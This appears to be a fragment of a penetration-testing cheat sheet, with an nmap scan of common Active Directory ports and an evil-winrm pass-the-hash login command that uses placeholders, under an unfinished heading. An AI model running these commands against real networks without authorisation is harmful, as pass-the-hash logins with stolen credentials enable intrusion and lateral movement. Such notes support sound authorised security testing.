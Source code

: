 #### Port Scanning

```
#Good for active directory machines.
nmap -Pn -iL <hosts> -p22,3389,5895,47001,88,389,445,80,443,21,8000,8080 -oA internal_scan
```

#### ADD PTH TECHNIQUES HERE


```
#EVIL-WINRM
evil-winrm -u <user> -H <hash> -i <ip>

```